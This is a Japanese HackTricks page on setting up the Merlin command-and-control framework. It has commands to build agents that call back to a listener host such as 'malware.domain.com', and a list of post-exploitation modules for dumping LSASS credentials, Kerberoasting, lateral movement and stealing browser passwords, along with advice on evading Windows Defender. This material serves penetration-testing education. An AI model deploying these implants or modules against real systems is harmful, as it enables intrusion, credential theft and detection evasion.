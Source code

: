 <details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**、または**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>


# インストール

## GOのインストール
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Merlinのインストール
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Merlinサーバーの起動
```
go run cmd/merlinserver/main.go -i
```
# Merlin エージェント

[事前にコンパイルされたエージェントをダウンロードする](https://github.com/Ne0nd0g/merlin/releases)ことができます。

## エージェントのコンパイル

メインフォルダ _$GOPATH/src/github.com/Ne0nd0g/merlin/_ に移動してください。
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **エージェントの手動コンパイル**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# モジュール

**悪いニュースは、Merlinによって使用されるすべてのモジュールがソース（Github）からダウンロードされ、使用する前にディスクに保存されることです。よく知られているモジュールを使用する際は、Windows Defenderに捕まらないように注意してください！**


**SafetyKatz** --> Modified Mimikatz。LSASSをファイルにダンプし、そのファイルに対して:sekurlsa::logonpasswordsを実行します\
**SharpDump** --> 指定されたプロセスID（デフォルトではLSASS）のminidump（最終ファイルの拡張子は.gzと言われていますが、実際には.binですが、gzファイルです）\
**SharpRoast** --> Kerberoast（動作しません）\
**SeatBelt** --> CSのローカルセキュリティテスト（動作しません） https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> csc.exe /unsafeを使用してコンパイル\
**Sharp-Up** --> powerupのC#での全チェック（動作します）\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNSスプーファーおよびマンインザミドルツール（動作しません、以下をロードする必要があります：https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1）\
**Invoke-InternalMonologue** --> 利用可能なすべてのユーザーを偽装し、各ユーザーに対してチャレンジレスポンスを取得します（各ユーザーのNTLMハッシュ）（不正なURL）\
**Invoke-PowerThIEf** --> IExplorerからフォームを盗むか、JSを実行させるか、そのプロセスにDLLを注入する（動作しません）（PSも動作しないようです） https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> ブラウザのパスワードを取得（動作しますが、出力ディレクトリを印刷しません）\
**dumpCredStore** --> Win32 Credential Manager API（https://github.com/zetlen/clortho/blob/master/CredMan.ps1） https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> 実行中のプロセスでのクラシックインジェクションを検出（クラシックインジェクション（OpenProcess、VirtualAllocEx、WriteProcessMemory、CreateRemoteThread））（動作しません）\
**Get-OSTokenInformation** --> 実行中のプロセスとスレッドのトークン情報を取得（ユーザー、グループ、権限、所有者... https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class）\
**Invoke-DCOM** --> DCOMを介してコマンドを実行します（他のコンピューターで）（http://www.enigma0x3.net.）（https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/）\
**Invoke-DCOMPowerPointPivot** --> PowerPoint COMオブジェクトを悪用して他のPCでコマンドを実行（ADDin）\
**Invoke-ExcelMacroPivot** --> ExcelのDCOMを悪用して他のPCでコマンドを実行\
**Find-ComputersWithRemoteAccessPolicies** --> （動作しません）（https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/）\
**Grouper** --> グループポリシーの最も興味深い部分をすべてダンプし、それらを探って悪用可能なものを見つけます。（非推奨）Grouper2を見てみてください、とても良さそうです\
**Invoke-WMILM** --> 後方移動のためのWMI\
**Get-GPPPassword** --> groups.xml、scheduledtasks.xml、services.xml、datasources.xmlを探し、プレーンテキストパスワードを返します（ドメイン内）\
**Invoke-Mimikatz** --> mimikatzを使用（デフォルトのクレデンシャルダンプ）\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> コンピューターのユーザーの権限をチェック\
**Find-PotentiallyCrackableAccounts** --> SPNに関連付けられたユーザーアカウントに関する情報を取得（Kerberoasting）\
**psgetsystem** --> getsystem

**永続性モジュールはチェックしていません**

# まとめ

このツールの感触とポテンシャルがとても気に入りました。\
ツールがサーバーからモジュールをダウンロードし始め、スクリプトをダウンロードする際に何らかの回避策を統合することを願っています。


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見してください。私たちの独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションです。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加するか**、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有してください。

</details>
